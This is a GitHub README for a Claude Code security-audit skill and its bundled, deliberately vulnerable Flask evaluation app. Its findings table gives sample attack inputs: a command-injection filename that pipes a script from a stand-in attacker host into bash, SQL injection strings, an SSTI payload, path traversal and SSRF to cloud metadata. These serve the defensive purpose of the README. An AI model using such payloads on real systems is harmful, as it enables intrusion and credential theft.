


<div align="center">

# claude-security-skills

**[Claude Code](https://claude.ai/claude-code) skill for adversarial-grade security audits: full architectural context, ultra-granular function analysis, and novel code vulnerabilities discovery**

[](LICENSE)
[](https://python.org)
[](https://claude.com/product/claude-code)
[](https://owasp.org/Top10/2025/)

<br/>

<table>
<tr>
<td><a href="docs/screenshots/vulnapp_Vulnerability_Report.pdf"></a></td>
<td><a href="docs/screenshots/vulnapp_Vulnerability_Report.pdf"></a></td>
</tr>
<tr>
<td align="center"><em>Cover — risk matrix · 24 findings</em></td>
<td align="center"><em>Executive summary — severity breakdown</em></td>
</tr>
</table>

<sub>↑ Real output on <a href="docs/screenshots/vulnapp_Vulnerability_Report.pdf">vulnapp</a> — a deliberately vulnerable Flask app included in this repo · <a href="docs/screenshots/vulnapp_Developer_Remediation_Guide.pdf">Developer Remediation Guide →</a></sub>

</div>

---

Static analyzers match known patterns. This skill reasons about your codebase the way a senior security engineer would — building an architectural model, tracing untrusted data across trust boundaries, and performing ultra-granular function-level analysis to find **logic flaws, auth bypasses, and novel attack chains** that automated tools miss.

Open any codebase in Claude Code and say:

```
"Run a security audit on this codebase"
```

No configuration. No setup beyond `./install.sh`. It asks two questions — branch and whether you want the developer guide — then runs the full pipeline autonomously.

---

## What it finds

22 vulnerability categories, including everything in OWASP Top 10 2025:

| Category                   | What it actually flags                                                                                                                   |
| -------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------- |
| SQL / NoSQL Injection      | `cursor.execute(f"SELECT * FROM users WHERE name='{name}'"` — auth bypass with `' OR 1=1 --`, full DB dump via `UNION SELECT`            |
| OS Command Injection       | `subprocess.run(f"convert {filename}", shell=True)` — RCE via filename `; curl attacker.com/shell.sh \| bash`                            |
| Path Traversal             | `open(uploads_dir + request.args['file'])` with no canonicalization — reads `/etc/passwd` via `../../etc/passwd`                         |
| Broken Access Control      | `/api/orders/{id}` checks `session['logged_in']` but never asserts `order.owner == session['user_id']` — any user reads any order        |
| Cryptographic Failures     | `hashlib.md5(password.encode()).hexdigest()` — entire user table crackable with rainbow tables in minutes                                |
| Hardcoded Credentials      | `AWS_SECRET_KEY = "wJalrXUt..."` in `config/settings.py` — anyone with repo read access owns the AWS account                             |
| SSRF                       | `requests.get(request.form['webhook_url'])` with no allowlist — pivots to `169.254.169.254/latest/meta-data/` for cloud credential theft |
| XSS / SSTI                 | `render_template_string(user_bio)` — `{{config.__class__.__init__.__globals__['os'].popen('id').read()}}` escalates to RCE               |
| Insecure Deserialization   | `pickle.loads(base64.b64decode(session_cookie))` — crafted payload executes arbitrary code on deserialization                            |
| Auth Bypass                | JWT library initialized with `algorithms=["none", "HS256"]` — attacker signs tokens without the secret key                               |
| Mass Assignment            | `User(**request.json)` with no field allowlist — adding `"role": "admin"` to the registration body grants admin rights                   |
| Security Misconfiguration  | `app.run(debug=True)` in production exposes the Werkzeug interactive debugger — unauthenticated RCE via any 500 error                    |
| Dependency Vulnerabilities | `PyYAML==3.13` in `requirements.txt` (CVE-2017-18342) — `yaml.load()` calls anywhere in the codebase execute arbitrary Python            |
| Secrets in Logs            | `logger.debug(f"Authenticating user {username} with password {password}")` — credentials land in log aggregators and rotation archives   |
| Cloud Misconfigurations    | EC2 instance profile with `"Action": "*", "Resource": "*"` — SSRF to metadata service yields keys that own the entire AWS account        |
| ... and 7 more             | Clickjacking, CSRF, insecure file upload, XXE, race conditions in payment flows, open redirect, missing rate limiting                    |

---

## Real finding — from the included eval app

Here is an actual finding the skill produced on `vulnapp`, a deliberately vulnerable Flask app included in this repo:

**VUL-001 · CRITICAL · SQL Injection — `/login` endpoint**

> `src/app.py:35` — Username and password interpolated directly into a raw SQL query via Python f-string. No parameterization, no escaping. Authentication can be bypassed with `' OR '1'='1` and the entire database dumped with a single `UNION SELECT`.

**Vulnerable code** (`src/app.py:35`):

```python
# Before — exploitable
query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"
cursor.execute(query)
```

**Fixed code** (from the generated developer guide):

```python
# After — parameterized query
query = "SELECT * FROM users WHERE username = ? AND password = ?"
cursor.execute(query, (username, hashed_password))
```

The skill found **24 findings** in vulnapp: **5 Critical · 13 High · 5 Medium · 1 Low** — including SQL injection, OS command injection, path traversal, IDOR, hardcoded AWS keys, MD5 password hashing, unauthenticated debug endpoints, and credentials leaked to logs.

---

## Sample reports

- [vulnapp Vulnerability Report PDF](docs/screenshots/vulnapp_Vulnerability_Report.pdf)
- [vulnapp Developer Remediation Guide PDF](docs/screenshots/vulnapp_Developer_Remediation_Guide.pdf)

---

## Pipeline

```
                         📁 Your Codebase
                               │
          ┌────────────────────┼────────────────────┐
          │         7-Phase Audit Pipeline           │
          │                                          │
          │  1 ─ Project Discovery                   │
          │      Language · Framework · Entry Points │
          │               │                          │
          │  2 ─ Architecture Context                │
          │      Module Map · Trust Boundaries       │
          │               │                          │
          │  3 ─ Function Analysis                   │
          │      Top 20 Risky Functions · 5-Whys     │
          │               │                          │
          │  4 ─ Vulnerability Hunting               │
          │      22 Categories · OWASP · CWE · Cloud │
          │               │                          │
          │  5 ─ CVE Enrichment          (optional)  │
          │      CWE · CVEs · NIST SP 800-53         │
          │               │                          │
          │  6 ─ PDF Report Generation               │
          │      Chrome Headless · Dark Navy A4      │
          │               │                          │
          │  7 ─ Developer Guide         (optional)  │
          │      Before/After Fixes · Sprint Roadmap │
          └───────────────┬──────────────────────────┘
                          │
        ┌─────────────────┼─────────────────┐
        ▼                 ▼                 ▼
📄 Vulnerability     📘 Developer     📊 Machine-Readable
   Report PDF      Remediation Guide   CSV · OCSF JSON
```

---

## Output

### Vulnerability Report PDF

Each finding is structured as:

| Field           | Content                                       |
| --------------- | --------------------------------------------- |
| **Severity**    | CVSS 3.1 score + vector string                |
| **Evidence**    | Exact `file:line` reference with code excerpt |
| **Remediation** | Concrete fix with the correct code pattern    |
| **Standards**   | CWE · OWASP Top 10 · CVE references           |

The report follows an industry-standard 8-section structure: Cover & Executive Summary → Scope & Methodology → Risk Dashboard → Threat Model → Detailed Findings → Attack Chain Analysis → Compliance Mapping (OWASP / ISO 27001 / NIST CSF / PCI DSS) → Security Strengths.

### Machine-Readable Exports _(optional)_

Structured output for integration with SIEMs, ticketing systems, and CI/CD pipelines:

- **CSV** — one row per finding with severity, CWE, file, line, and remediation summary; ready for spreadsheet triage or Jira bulk import
- **OCSF JSON** — findings mapped to the [Open Cybersecurity Schema Framework](https://schema.ocsf.io/) `Vulnerability Finding` class (class UID 2004), compatible with AWS Security Hub, Splunk, and any OCSF-aware SIEM

### Developer Remediation Guide _(optional)_

Engineer-facing. Written for the developer who owns the fix:

- Root-cause pattern analysis across all findings (why the same anti-pattern keeps appearing)
- Highest-severity attack paths with PoC one-liners
- File-by-file before/after code fixes with explanations
- 3-sprint remediation roadmap with hour estimates per finding

---

## Installation

**Requirements:** [Claude Code](https://claude.ai/claude-code) · Python 3.8+ · Google Chrome or Chromium

### Via Claude Code plugin registry _(pending marketplace review)_

```bash
claude plugin install Yashvendra/claude-security-skills
```

Installs `vuln-assessment` and the bundled `audit-context-building` dependency in one step. For CVE enrichment and the developer guide (Phases 5 + 7), also install:

```bash
claude plugin install claude-scientific-writer
```

Restart Claude Code when done.

### Via install script _(alternative)_

```bash
git clone https://github.com/Yashvendra/claude-security-skills.git
cd claude-skills-security && ./install.sh
```

`install.sh` copies the skill and its bundled dependencies into `~/.claude/skills/`, then optionally installs `claude-scientific-writer` for CVE research enrichment and the developer guide. Restart Claude Code afterward.

---

## Usage

### Standard audit

```
"Run a security audit on this codebase"
"Find vulnerabilities in src/"
"OWASP audit"
"Pentest this before we ship"
```

Claude asks two questions — which branch to audit and whether you want the developer guide — then runs the full pipeline autonomously.

### Scoped audit

```
"Check only the authentication module for security issues"
"Find all SQL injection vulnerabilities"
```

### Multi-branch comparison

```
"Audit main and develop side by side"
```

Produces one PDF per branch with findings diffed to surface vulnerabilities introduced between branches.

---

## Dependencies

| Dependency                 | Distribution                | Phases                                |
| -------------------------- | --------------------------- | ------------------------------------- |
| `audit-context-building`   | Bundled in `deps/`          | 2–3: architecture + function analysis |
| `claude-scientific-writer` | Installed by `./install.sh` | 5 + 7: CVE research + dev guide       |
| Chrome / Chromium          | System                      | 6–7: PDF rendering                    |
| Python 3.8+                | System                      | 6–7: report generation                |

Both optional dependencies degrade gracefully — skip them and the core vulnerability report is still produced in full.

---

## Evals

`vuln-assessment/evals/fixtures/vulnapp` is a deliberately vulnerable Flask application with **24 known findings** (5 Critical · 13 High · 5 Medium · 1 Low). Use it to validate detection rate:

```bash
cd vuln-assessment/evals/fixtures/vulnapp
# In Claude Code: "Run a security audit on this codebase"
```

Passing bar: `vulnapp_Vulnerability_Report.pdf` + `_vuln_findings.json` with ≥ 20/24 findings detected. Optional: `_vuln_findings.csv` and `_vuln_findings_ocsf.json` for machine-readable output validation.

---

## Contributing

Contributions are welcome — bug fixes, new vulnerability categories, additional export formats, or eval fixtures.

1. Fork the repo and create a feature branch
2. Make your changes and run the evals against `vulnapp` to verify detection rate is not regressed (≥ 20/24)
3. Open a pull request with a clear description of what changed and why

For larger changes (new pipeline phases, architectural refactors), open an issue first to align on approach before investing time in implementation.

---

## Reporting Issues

Found a bug, a missed vulnerability class, or a false positive pattern? Please open an issue on GitHub:

**[github.com/Yashvendra/claude-security-skills/issues](https://github.com/Yashvendra/claude-security-skills/issues)**

Include:

- A description of the problem and what you expected
- The language / framework of the audited codebase (no source code needed)
- The phase where it failed (e.g., PDF generation, CVE enrichment)
- Relevant output or error messages

For security vulnerabilities in this skill itself, please disclose privately via GitHub's [private vulnerability reporting](https://github.com/Yashvendra/claude-security-skills/security/advisories/new) rather than opening a public issue.

---

## License

MIT
